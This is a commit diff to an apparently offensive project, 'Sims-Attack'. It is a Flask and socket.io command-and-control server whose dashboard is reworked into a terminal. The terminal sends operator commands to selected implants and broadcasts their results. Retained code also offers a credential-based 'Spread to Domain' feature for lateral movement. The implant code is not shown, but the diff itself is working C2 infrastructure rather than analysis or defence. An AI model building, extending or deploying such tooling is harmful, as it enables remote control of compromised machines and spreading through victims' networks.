

Before and after one commit to OfficialScragg/Sims-Attack, a Flask app: page / in a window 1280 px wide. Shown: the part 50-642 px from the top of the page. Run offline with Flask 3, Linux system fonts and the light colour scheme; some libraries are stand-ins or nearby versions.

```diff
--- a/c2_server/app.py
+++ b/c2_server/app.py
@@ -235,70 +235,60 @@ def handle_register(data):
     emit('implants_update', active_implants, broadcast=True)
     emit('registered', {'status': 'success'})
 
+@socketio.on('command')
+def handle_command(data):
+    """Handle command execution request"""
+    try:
+        implant_id = data.get('implant_id')
+        command = data.get('command')
+
+        if not implant_id or not command:
+            emit('error', {'message': 'Missing implant_id or command'})
+            return
+
+        # Get implant from database
+        conn = get_db()
+        implant = conn.execute('SELECT * FROM implants WHERE id = ?', (implant_id,)).fetchone()
+        if not implant:
+            emit('error', {'message': 'Implant not found'})
+            return
+
+        # Emit command to the specific implant
+        emit('command', {
+            'command': command,
+            'implant_id': implant_id
+        }, room=implant_id)
+
+    except Exception as e:
+        logger.error(f"Error handling command: {e}")
+        emit('error', {'message': str(e)})
+
 @socketio.on('command_result')
 def handle_command_result(data):
-    """Handle command execution results from implants"""
-    implant_id = data.get('implant_id')
-    command = data.get('command')
-    result = data.get('result')
-    timestamp = data.get('timestamp')
+    """Handle command result from implant"""
+    try:
+        implant_id = data.get('implant_id')
+        command = data.get('command')
+        result = data.get('result')
+        timestamp = data.get('timestamp')
 
-    if implant_id and command:
-        # Parse result if it's JSON (for screenshots)
-        try:
-            if isinstance(result, str) and result.startswith('{'):
-                result_data = json.loads(result)
-                if result_data.get('status') == 'success' and result_data.get('filename'):
-                    # Handle screenshot result
-                    result = {
-                        'type': 'screenshot',
-                        'message': result_data['message'],
-                        'filename': result_data['filename'],
-                        'timestamp': timestamp
-                    }
-                else:
-                    result = {
-                        'type': 'error',
-                        'message': result_data.get('message', 'Unknown error'),
-                        'timestamp': timestamp
-                    }
-            else:
-                # Handle regular command output
-                result = {
-                    'type': 'command',
-                    'message': result,
-                    'timestamp': timestamp
-                }
-        except json.JSONDecodeError:
-            # If result is not JSON, treat as regular command output
-            result = {
-                'type': 'command',
-                'message': result,
-                'timestamp': timestamp
-            }
+        if not all([implant_id, command, result]):
+            logger.error("Missing required fields in command result")
+            return
 
-        # Store result in database
-        conn = get_db()
-        conn.execute('''UPDATE commands
-                        SET status = ?, result = ?
-                        WHERE implant_id = ? AND command = ?''',
-                    ('completed', result, implant_id, command))
-        conn.commit()
-        conn.close()
+        # Log the command result
+        logger.info(f"Command result from implant {implant_id}: {command}")
 
-        # Update implant's last activity
-        if implant_id in active_implants:
-            active_implants[implant_id]['last_seen'] = timestamp
-            active_implants[implant_id]['last_activity'] = f"Executed command: {command}"
-
-        # Broadcast updates
-        emit('implants_update', active_implants, broadcast=True)
+        # Broadcast the result to all connected clients
         emit('command_result', {
             'implant_id': implant_id,
             'command': command,
             'result': result,
             'timestamp': timestamp
         }, broadcast=True)
+
+    except Exception as e:
+        logger.error(f"Error handling command result: {e}")
 
 @socketio.on('get_command_history')
 def handle_get_command_history(data):
--- a/c2_server/templates/index.html
+++ b/c2_server/templates/index.html
@@ -57,6 +57,26 @@
             color: #6c757d;
             font-size: 0.8rem;
         }
+        .terminal-output {
+            border-radius: 4px;
+            font-size: 14px;
+            line-height: 1.4;
+        }
+        .terminal-output div {
+            margin: 2px 0;
+            word-wrap: break-word;
+        }
+        #commandInput {
+            background-color: #2d2d2d;
+            color: #fff;
+            border: 1px solid #444;
+        }
+        #commandInput:focus {
+            background-color: #2d2d2d;
+            color: #fff;
+            border-color: #666;
+            box-shadow: none;
+        }
     </style>
 </head>
 <body>
@@ -86,63 +106,15 @@
             <div class="col-md-8">
                 <div class="card">
                     <div class="card-header">
-                        <h5 class="card-title mb-0">Command Interface</h5>
+                        <h5 class="card-title mb-0">Terminal</h5>
                     </div>
                     <div class="card-body">
-                        <div id="selected-implant-info" class="mb-3">
-                            <p class="text-muted">Select an implant to execute commands</p>
+                        <div id="terminal" class="terminal-output" style="height: 400px; overflow-y: auto; background-color: #1e1e1e; color: #fff; font-family: 'Consolas', monospace; padding: 10px; white-space: pre-wrap;">
                         </div>
-
-                        <form id="command-form" class="mb-3">
+                        <div class="mt-3">
                             <div class="input-group">
-                                <input type="text" id="command-input" class="form-control" placeholder="Enter command...">
-                                <button type="submit" class="btn btn-primary">Execute</button>
-                            </div>
-                        </form>
-
-                        <!-- Quick Actions -->
-                        <div class="mb-3">
-                            <div class="btn-group">
-                                <button class="btn btn-secondary" id="take-screenshot">
-                                    <i class="fa fa-camera"></i> Take Screenshot
-                                </button>
-                                <button class="btn btn-secondary" id="spread-domain">
-                                    <i class="fa fa-share-alt"></i> Spread to Domain
-                                </button>
-                                <button class="btn btn-secondary dropdown-toggle" type="button" data-bs-toggle="dropdown">
-                                    <i class="fa fa-file"></i> File Operations
-                                </button>
-                                <ul class="dropdown-menu">
-                                    <li><a class="dropdown-item" href="#" id="upload-file">Upload File</a></li>
-                                    <li><a class="dropdown-item" href="#" id="download-file">Download File</a></li>
-                                </ul>
-                            </div>
-                        </div>
-
-                        <!-- Command History -->
-                        <div class="card mb-3">
-                            <div class="card-header">
-                                <h6 class="mb-0">Command History</h6>
-                            </div>
-                            <div class="card-body">
-                                <div id="command-history" class="command-history">
-                                    <!-- Command history will be dynamically added here -->
-                                </div>
-                            </div>
-                        </div>
-
-                        <!-- Command Output -->
-                        <div class="card">
-                            <div class="card-header">
-                                <h6 class="mb-0">Command Output</h6>
-                            </div>
-                            <div class="card-body">
-                                <div id="command-output" class="command-output">
-                                    <!-- Command output will be dynamically added here -->
-                                </div>
-                                <div id="screenshot-container" class="screenshot-container">
-                                    <!-- Screenshots will be displayed here -->
-                                </div>
+                                <input type="text" id="commandInput" class="form-control" placeholder="Enter command...">
+                                <button class="btn btn-primary" onclick="sendCommand()">Send</button>
                             </div>
                         </div>
                     </div>
@@ -353,24 +325,78 @@
             });
         }
 
-        // Handle command form submission
-        document.getElementById('command-form').addEventListener('submit', (e) => {
-            e.preventDefault();
+        // Terminal display functions
+        function appendToTerminal(text, type = 'output') {
+            const terminal = document.getElementById('terminal');
+            const timestamp = new Date().toLocaleTimeString();
+            const line = document.createElement('div');
 
-            if (!selectedImplantId) {
-                alert('Please select an implant first');
+            if (type === 'command') {
+                line.innerHTML = `<span style="color: #00ff00;">[${timestamp}] $ </span><span style="color: #fff;">${text}</span>`;
+            } else if (type === 'error') {
+                line.innerHTML = `<span style="color: #ff0000;">[${timestamp}] Error: ${text}</span>`;
+            } else {
+                line.innerHTML = `<span style="color: #888;">[${timestamp}] ${text}</span>`;
+            }
+
+            terminal.appendChild(line);
+            terminal.scrollTop = terminal.scrollHeight;
+        }
+
+        // Update command handling
+        function sendCommand() {
+            const commandInput = document.getElementById('commandInput');
+            const command = commandInput.value.trim();
+
+            if (!command) return;
+
+            const selectedImplant = document.querySelector('.implant-card.selected');
+            if (!selectedImplant) {
+                appendToTerminal('No implant selected', 'error');
                 return;
             }
 
-            const commandInput = document.getElementById('command-input');
-            const command = commandInput.value.trim();
+            const implantId = selectedImplant.dataset.implantId;
 
-            if (command) {
-                socket.emit('execute_command', {
-                    implant_id: selectedImplantId,
-                    command: command
-                });
-                commandInput.value = '';
+            // Display command in terminal
+            appendToTerminal(command, 'command');
+
+            // Send command to server
+            socket.emit('command', {
+                implant_id: implantId,
+                command: command
+            });
+
+            commandInput.value = '';
+        }
+
+        // Handle command results
+        socket.on('command_result', function(data) {
+            if (data.result) {
+                appendToTerminal(data.result);
+            }
+        });
+
+        // Handle connection status
+        socket.on('implant_connected', function(data) {
+            appendToTerminal(`Implant ${data.id} connected`, 'output');
+            updateImplantList();
+        });
+
+        socket.on('implant_disconnected', function(data) {
+            appendToTerminal(`Implant ${data.id} disconnected`, 'output');
+            updateImplantList();
+        });
+
+        // Handle errors
+        socket.on('error', function(data) {
+            appendToTerminal(data.message, 'error');
+        });
+
+        // Add enter key support for command input
+        document.getElementById('commandInput').addEventListener('keypress', function(e) {
+            if (e.key === 'Enter') {
+                sendCommand();
             }
         });
 
@@ -423,7 +449,7 @@
             const domainPassword = document.getElementById('domain-password').value;
 
             if (!domainUser || !domainPassword) {
-                appendCommandOutput('Error: Domain credentials required');
+                appendToTerminal('Error: Domain credentials required', 'error');
                 return;
             }
 
@@ -441,11 +467,11 @@
             })
             .then(response => response.json())
             .then(data => {
-                appendCommandOutput('Domain spread initiated...');
+                appendToTerminal('Domain spread initiated...', 'output');
                 bootstrap.Modal.getInstance(document.getElementById('spread-modal')).hide();
             })
             .catch(error => {
-                appendCommandOutput(`Error: ${error.message}`);
+                appendToTerminal(`Error: ${error.message}`, 'error');
             });
         });
     </script>
```
Also changed, not shown: implant/implant.py (+45 -24 lines), 1 other file.
